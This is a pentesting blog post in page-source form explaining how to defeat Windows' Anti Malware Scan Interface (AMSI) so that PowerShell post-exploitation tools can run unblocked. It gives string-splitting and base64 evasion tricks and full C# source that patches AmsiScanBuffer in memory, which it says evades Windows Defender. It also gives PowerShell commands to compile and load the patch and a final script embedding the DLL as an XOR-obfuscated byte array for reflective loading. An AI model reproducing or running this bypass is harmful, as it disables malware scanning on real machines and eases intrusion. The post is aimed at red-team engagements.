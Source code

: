 ```yaml
---
layout: post
title: "Execute any \"evil\" Powershell code by bypassing AMSI"
author: "Mor Davidovich @Dec0ne"
---
```

Powershell can be a powerful tool during the post-exploitation phase of our engagements. It packs a lot of native tools that can help us enumerate further beyond our initial foothold and onto the rest of the AD network. Probably, one of the best advantages of Powershell is having access to awesome public scripts and tools like Empire, PowerSploit, Nishang and many others, but what if AMSI will not let us use any of these tools?

## What is AMSI?
AMSI stands for "Anti Malware Scan Interface" and it's job is to scan and block anything malicious.
Still don't know what I'm talking about? Perhaps this will help:
<img class="fill" src="/research/img/amsi-bypass-post/1.PNG?raw=true">
Obviously if you are experienced with pentesting in AD networks, you encountered this error with almost all public known scripts.

## How AMSI works exactly?
It uses a string based detection mechanism to detect “dangerous” commands and potentially malicious scripts.
Check out this example:
<img class="fill" src="/research/img/amsi-bypass-post/2.PNG?raw=true">
As you can see the word "amsiutils" is prohibited so any Powershell scripts containing this word will be blocked by AMSI.

## So how can we bypass it?
Good thing you asked because I got some examples for you.
String based detection are very easy to bypass - just refrain from using the banned string literally.
Here are some ways to execute banned string without actually using it:
<img class="fill" src="/research/img/amsi-bypass-post/3.PNG?raw=true">
By simply splitting the string you could fool AMSI and execute your banned string. This is a very common technique to use in obfuscation in general.
<img class="fill" src="/research/img/amsi-bypass-post/4.PNG?raw=true">
You can also encode your string to base64 - in most cases that will be enough to fool AMSI.
If all else fails we can encode the string to bytes and even use XOR to make it even harder for AMSI but we will discuss that towards the end of the post.
The examples above are mere workarounds though, and to do this with every online public scripts we want to use is simply impractical.
So how can we __disable__ AMSI?

## Disabling AMSI
After scouring the web for a bit searching for a practical way to disable AMSI I stumbled onto [CyberArk post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) in which he explains how he was able to disable AMSI using a memory patch to basically make AMSI execute all of its scans on a length of 0 (AKA not scanning anything). He provided a C# code that compiles into a DLL which we can load into Powershell and disable AMSI.
Unfortunately, CyberArk code's not longer valid. Apparently Windows Defender now blocks it so we can't even compile it, let alone load it into Powershell.
Upon further investigation and manipulation to the CyberArk code I managed to come up with this code that successfully evades Windows Defender:
```c#
using System;
using System.Runtime.InteropServices;

namespace BP
{
    public class AMS
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static void Disable()
        {
            IntPtr AMSDLL = LoadLibrary("amsi.dll");
            IntPtr AMSBPtr = GetProcAddress(AMSDLL, "Am" + "si" + "Scan" + "Buffer");
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            VirtualProtect(AMSBPtr, dwSize, 0x40, out Zero);
            Byte[] Patch1 = { 0x31 };
            Byte[] Patch2 = { 0xff };
            Byte[] Patch3 = { 0x90 };
            IntPtr unmanagedPointer1 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch1, 0, unmanagedPointer1, 1);
            MoveMemory(AMSBPtr + 0x001b, unmanagedPointer1, 1);
            IntPtr unmanagedPointer2 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch2, 0, unmanagedPointer2, 1);
            MoveMemory(AMSBPtr + 0x001c, unmanagedPointer2, 1);
            IntPtr unmanagedPointer3 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch3, 0, unmanagedPointer3, 1);
            MoveMemory(AMSBPtr + 0x001d, unmanagedPointer3, 1);
            Console.WriteLine("Memory patched successfuly.");
        }
    }
}
``` 
You can easily compile it into a DLL using Powershell:
```powershell
PS C:\Users\Mor> Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
```
To load it into Powershell we can use its native (.NET) API:
```powershell
PS C:\Users\Mor> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
```
and to execute it, we simply call the now loaded function inside the DLL:
```powershell
PS C:\Users\Mor> [BP.AMS]::Disable()
```
This is how it looks in action:
<img class="fill" src="/research/img/amsi-bypass-post/5.PNG?raw=true">
As you can see, we are now able to use the string "amsiutils" literally. We have successfully disabled AMSI. Right now we can load any external Powershell script like PowerSploit or Nishang without AMSI blocking it.

## Putting it all together
Once we have everything working we should try to automate everything we can because during engagements we might not have the time or the ability to do all of the steps above.
I decided to encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it.
To encode the dll to base64 I used this command:
```powershell
PS C:\Users\Mor> $encoded_dll_string = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
```
<img class="fill" src="/research/img/amsi-bypass-post/6.PNG?raw=true">
The resulted string is the encoded DLL.

We can load it into memory like this:

```powershell
PS C:\Users\Mor> [Reflection.Assembly]::Load([Convert]::FromBase64String($encoded_dll_string)) | Out-Null
```
To my surprise, AMSI detected my encoded DLL string (or at least some part of it) as malicious and blocked it:
<img class="fill" src="/research/img/amsi-bypass-post/7.PNG?raw=true">
I managed to bypass this by splitting the string somewhere in the middle (after some trial and error) but in my final script I decided to go with something a bit more "long-term": ByteString + XOR
Since AMSI only detects strings and not logic I needed a way to represent the DLL code with a string that I could easily change whenever AMSI decides to ban it.

What I did is the following:
I loaded the DLL bytes in Powershell, ran the byte array through a XOR function and finally converted it to a ByteString.
```powershell
PS C:\Users\Mor> $byteArray = [IO.File]::ReadAllBytes("$pwd\\Source.dll")
PS C:\Users\Mor> $keyArray = @(12, 85, 65)
PS C:\Users\Mor> $keyPosition = 0
PS C:\Users\Mor> for($i=0; $i -lt $byteArray.count ; $i++)
				 {
					 $byteArray[$i] = $byteArray[$i] -bxor $KeyArray[$keyposition]
				 	 $keyposition += 1
				 	 if ($keyposition -eq $keyArray.Length) {$keyposition = 0}
				 }
PS C:\Users\Mor> $byteString = ($byteArray | ForEach-Object ToString) -join ','
```
The only thing left to do is to copy the encoded ByteString into the final Powershell script and host it online for me to use whenever I need it. 
If for some reason AMSI will ever decide to block my encoded ByteString all I need to do is change the XOR key and copy the new encoded ByteString to the Powershell script and I'm good to go.

The final Powershell script:
```powershell
function AMSBP
{
	if (-not ([System.Management.Automation.PSTypeName]"BP.AMS").Type) {
		$byteArray = @(65,15,209,12,86,65,12,85,69,12,85,65,243,170,65,12,237,65,12,85,65,12,85,65,76,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,140,85,65,12,91,94,182,91,65,184,92,140,45,237,64,64,152,96,88,61,40,127,117,49,126,58,38,126,52,44,44,54,32,98,59,46,120,117,35,105,117,51,121,59,97,101,59,97,72,26,18,44,56,46,104,48,111,1,88,75,40,85,65,12,85,65,12,85,17,73,85,65,64,84,66,12,29,246,200,8,65,12,85,65,12,85,65,12,181,65,14,116,74,13,94,65,12,93,65,12,85,71,12,85,65,12,85,65,194,115,65,12,85,97,12,85,65,76,85,65,12,85,65,28,85,97,12,85,65,14,85,65,8,85,65,12,85,65,12,85,69,12,85,65,12,85,65,12,85,193,12,85,65,14,85,65,12,85,65,12,86,65,76,208,65,12,69,65,12,69,65,12,85,65,28,85,65,28,85,65,12,85,65,12,69,65,12,85,65,12,85,65,12,85,65,12,45,103,12,85,18,12,85,65,12,21,65,12,245,67,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,53,65,12,89,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,44,85,65,4,85,65,12,85,65,12,85,65,12,85,65,4,117,65,12,29,65,12,85,65,12,85,65,12,85,65,12,123,53,105,45,53,12,85,65,216,83,65,12,85,97,12,85,65,4,85,65,12,87,65,12,85,65,12,85,65,12,85,65,12,85,65,12,117,65,12,53,111,126,38,51,111,85,65,12,245,67,12,85,65,76,85,65,12,81,65,12,85,75,12,85,65,12,85,65,12,85,65,12,85,65,12,85,1,12,85,1,34,39,36,96,58,34,12,85,77,12,85,65,12,53,65,12,85,67,12,85,65,2,85,65,12,85,65,12,85,65,12,85,65,12,85,65,76,85,65,78,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,241,42,85,65,12,85,65,12,29,65,12,85,67,12,80,65,76,116,65,12,109,68,12,85,64,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,70,113,8,85,157,12,85,65,13,85,65,29,39,64,12,85,49,36,87,65,12,83,75,10,39,82,12,85,49,36,84,65,12,83,74,23,125,68,12,85,75,0,67,76,11,93,94,76,71,66,36,86,65,12,83,103,27,216,70,12,85,64,31,95,80,6,67,94,61,201,80,6,70,69,27,216,70,12,85,64,31,94,80,7,67,97,243,85,65,12,201,80,7,70,68,27,216,70,12,85,64,31,89,80,0,67,97,156,85,65,12,201,80,0,70,71,27,125,71,12,85,75,31,82,80,8,67,80,11,66,105,11,85,65,6,82,94,23,125,73,12,85,75,29,82,86,36,81,65,12,83,86,36,83,65,12,95,82,4,68,68,26,68,73,27,125,70,12,85,75,11,74,93,36,93,65,12,95,80,4,66,105,8,85,65,10,66,105,10,85,65,6,70,72,29,83,87,29,92,86,36,82,65,12,95,70,19,72,105,4,85,65,6,68,72,27,125,69,12,85,71,126,100,65,12,37,105,5,85,65,6,127,95,14,125,75,12,85,75,38,23,18,70,23,64,12,84,65,12,85,65,12,89,65,12,85,55,56,123,113,34,102,113,63,100,120,12,85,65,12,80,65,96,85,65,12,129,64,12,85,98,114,85,65,76,87,65,12,189,64,12,85,98,95,33,51,101,59,38,127,85,65,12,85,105,8,85,65,96,85,65,12,118,20,95,85,213,8,85,65,28,85,65,12,118,6,89,28,5,12,85,65,168,81,65,12,193,65,12,85,98,78,57,46,110,85,65,12,85,65,12,85,67,12,85,64,75,64,67,24,92,65,12,85,65,246,112,114,12,67,65,12,84,65,12,85,75,12,85,65,14,85,65,12,83,65,12,85,75,12,85,65,6,85,65,12,87,65,12,85,64,12,85,65,14,85,65,12,81,65,12,85,64,12,85,65,13,85,65,12,85,65,6,85,64,12,85,65,12,85,71,12,121,65,41,85,71,12,141,65,181,85,71,12,70,64,255,85,71,12,102,64,255,85,71,12,13,64,181,85,71,12,218,64,41,85,71,12,246,64,41,85,71,12,253,64,181,85,71,12,151,64,41,85,71,12,128,64,41,85,65,12,85,65,13,85,65,12,85,65,13,85,64,12,84,65,28,85,84,12,76,65,9,85,64,12,84,65,12,85,65,12,213,65,154,117,114,12,95,65,13,85,65,12,85,65,140,85,215,44,23,65,28,85,66,12,85,65,12,85,193,12,195,97,66,85,84,12,81,65,12,85,65,12,213,65,157,117,28,12,75,65,4,85,17,44,85,65,12,85,215,12,61,65,41,85,74,12,109,96,12,85,65,12,211,89,124,85,104,12,94,65,12,85,64,12,35,65,12,85,67,12,43,65,12,85,64,12,210,65,12,85,64,12,217,65,12,85,67,12,195,65,12,85,66,12,200,65,14,85,69,12,255,65,12,85,64,12,176,65,12,85,67,12,191,65,12,85,66,12,187,65,29,85,49,12,124,65,21,85,49,12,120,65,45,85,49,12,124,65,37,85,49,12,103,65,61,85,214,13,98,65,77,85,241,13,105,65,77,85,252,13,20,65,69,85,136,13,31,65,93,85,156,13,5,65,5,85,49,12,124,65,34,85,82,12,62,65,34,85,90,12,33,65,89,85,42,13,33,64,12,84,66,12,102,65,13,85,65,13,80,65,78,85,64,12,85,64,11,85,15,12,84,65,12,84,72,12,212,64,14,85,69,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,16,13,85,65,8,85,65,12,85,65,12,85,65,12,85,65,13,85,93,12,85,65,12,85,65,12,85,125,65,58,37,121,57,36,50,85,18,99,32,51,111,48,111,104,57,45,12,20,12,95,85,3,92,85,44,127,54,46,126,57,40,110,85,18,117,38,53,105,56,65,67,55,43,105,54,53,12,18,36,120,5,51,99,54,0,104,49,51,105,38,50,12,25,46,109,49,13,101,55,51,109,39,56,12,3,40,126,33,52,109,57,17,126,58,53,105,54,53,12,24,46,122,48,12,105,56,46,126,44,65,72,60,50,109,55,45,105,85,111,111,33,46,126,85,41,65,58,37,121,57,36,12,37,51,99,54,15,109,56,36,12,59,32,97,48,65,96,37,0,104,49,51,105,38,50,12,49,54,95,60,59,105,85,39,96,27,36,123,5,51,99,33,36,111,33,65,96,37,39,96,26,45,104,5,51,99,33,36,111,33,65,95,44,50,120,48,44,34,7,52,98,33,40,97,48,111,69,59,53,105,39,46,124,6,36,126,35,40,111,48,50,12,26,52,120,20,53,120,39,40,110,32,53,105,85,37,105,38,53,12,38,51,111,85,50,101,47,36,12,6,56,127,33,36,97,123,19,121,59,53,101,56,36,34,22,46,97,37,40,96,48,51,95,48,51,122,60,34,105,38,65,79,58,44,124,60,45,109,33,40,99,59,19,105,57,32,116,52,53,101,58,47,127,20,53,120,39,40,110,32,53,105,85,19,121,59,53,101,56,36,79,58,44,124,52,53,101,55,40,96,60,53,117,20,53,120,39,40,110,32,53,105,85,18,99,32,51,111,48,65,72,57,45,69,56,49,99,39,53,77,33,53,126,60,35,121,33,36,12,62,36,126,59,36,96,102,115,12,30,36,126,59,36,96,102,115,34,49,45,96,85,19,120,57,12,99,35,36,65,48,44,99,39,56,12,0,8,98,33,17,120,39,65,99,37,30,73,45,49,96,60,34,101,33,65,78,44,53,105,85,12,109,39,50,100,52,45,12,20,45,96,58,34,68,18,45,99,55,32,96,85,2,99,37,56,12,28,47,120,5,53,126,85,46,124,10,0,104,49,40,120,60,46,98,85,2,99,59,50,99,57,36,12,2,51,101,33,36,64,60,47,105,85,65,12,68,32,12,56,65,127,85,40,12,123,65,104,85,45,12,57,65,12,72,0,12,56,65,127,85,40,12,6,65,111,85,32,12,59,65,78,85,52,12,51,65,106,85,36,12,39,65,12,98,12,12,48,65,97,85,46,12,39,65,117,85,97,12,37,65,109,85,53,12,54,65,100,85,36,12,49,65,44,85,50,12,32,65,111,85,34,12,48,65,127,85,50,12,51,65,121,85,45,12,44,65,34,85,65,12,85,65,246,138,25,159,14,129,98,22,249,32,70,187,62,94,163,211,85,73,187,47,29,90,76,117,236,220,68,12,87,89,20,91,69,12,84,89,2,93,65,8,87,89,21,92,81,5,83,65,15,84,89,20,93,66,12,85,64,15,117,65,13,81,97,13,84,73,8,117,64,13,91,69,12,84,88,5,81,65,13,77,73,4,85,69,13,72,68,4,77,73,9,85,67,20,77,73,8,85,64,13,91,84,11,88,89,20,76,72,17,80,92,9,72,68,20,77,89,17,80,92,9,72,68,4,84,65,4,85,65,12,85,65,18,84,65,13,85,21,14,67,22,126,52,49,66,58,47,73,45,34,105,37,53,101,58,47,88,61,51,99,34,50,13,85,225,42,85,65,12,85,65,12,85,65,12,85,255,42,85,65,12,117,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,188,115,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,83,22,46,126,17,45,96,24,32,101,59,65,97,38,34,99,39,36,105,123,37,96,57,65,12,85,65,12,170,100,12,117,65,28,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,81,12,85,65,20,85,65,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,64,12,85,65,60,85,65,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,65,12,85,65,68,85,65,12,13,1,12,85,5,14,85,65,12,85,65,12,85,65,12,85,5,14,97,65,12,85,23,12,6,65,83,85,23,12,16,65,94,85,18,12,28,65,67,85,15,12,10,65,69,85,15,12,19,65,67,85,65,12,85,65,177,81,174,242,85,65,13,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,51,85,65,12,85,65,12,85,69,12,85,65,14,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,17,65,12,85,64,12,3,65,109,85,51,12,19,65,101,85,45,12,48,65,69,85,47,12,51,65,99,85,65,12,85,65,40,85,69,12,85,65,88,85,51,12,52,65,98,85,50,12,57,65,109,85,53,12,60,65,99,85,47,12,85,65,12,85,65,12,229,69,168,84,65,12,84,65,95,85,53,12,39,65,101,85,47,12,50,65,74,85,40,12,57,65,105,85,8,12,59,65,106,85,46,12,85,65,140,84,65,12,84,65,60,85,113,12,101,65,60,85,113,12,97,65,110,85,113,12,85,65,32,85,67,12,84,65,74,85,40,12,57,65,105,85,5,12,48,65,127,85,34,12,39,65,101,85,49,12,33,65,101,85,46,12,59,65,12,85,65,12,117,65,12,85,113,12,93,65,13,85,7,12,60,65,96,85,36,12,3,65,105,85,51,12,38,65,101,85,46,12,59,65,12,85,65,12,101,65,34,85,113,12,123,65,60,85,111,12,101,65,12,85,121,12,94,65,13,85,8,12,59,65,120,85,36,12,39,65,98,85,32,12,57,65,66,85,32,12,56,65,105,85,65,12,6,65,99,85,52,12,39,65,111,85,36,12,123,65,104,85,45,12,57,65,12,85,65,12,125,65,14,85,64,12,25,65,105,85,38,12,52,65,96,85,2,12,58,65,124,85,56,12,39,65,101,85,38,12,61,65,120,85,65,12,117,65,12,85,1,12,94,65,13,85,14,12,39,65,101,85,38,12,60,65,98,85,32,12,57,65,74,85,40,12,57,65,105,85,47,12,52,65,97,85,36,12,85,65,95,85,46,12,32,65,126,85,34,12,48,65,34,85,37,12,57,65,96,85,65,12,85,65,56,85,73,12,84,65,92,85,51,12,58,65,104,85,52,12,54,65,120,85,23,12,48,65,126,85,50,12,60,65,99,85,47,12,85,65,60,85,111,12,101,65,34,85,113,12,123,65,60,85,65,12,109,65,4,85,64,12,20,65,127,85,50,12,48,65,97,85,35,12,57,65,117,85,97,12,3,65,105,85,51,12,38,65,101,85,46,12,59,65,12,85,113,12,123,65,60,85,111,12,101,65,34,85,113,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,44,85,65,0,85,65,12,133,119,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12)
		$KeyArray = @(12, 85, 65)
		$keyposition = 0
		for ($i = 0; $i -lt $byteArray.count; $i++)
		{
			$byteArray[$i] = $byteArray[$i] -bxor $KeyArray[$keyposition]
			$keyposition += 1
			if ($keyposition -eq $keyArray.Length) { $keyposition = 0 }
		}
		[Reflection.Assembly]::Load([byte[]]$byteArray) | Out-Null
		Write-Output "DLL has been reflected"
	}
	[BP.AMS]::Disable()
}
```

Here is the final [hosted script](https://raw.githubusercontent.com/Dec0ne/AMS-BP/master/AMSBP.ps1) in action:
<img class="fill" src="/research/img/amsi-bypass-post/8.PNG?raw=true">

As you can see this technique is pretty simple to use and very useful when you wish to load some Powershell post-exploitation scripts that were once blocked by AMSI.

I hope you like this post like I enjoyed working on it. Hope you learned something new.
Thanks for CyberArk for sharing this technique.

Best regards,
Dec0ne
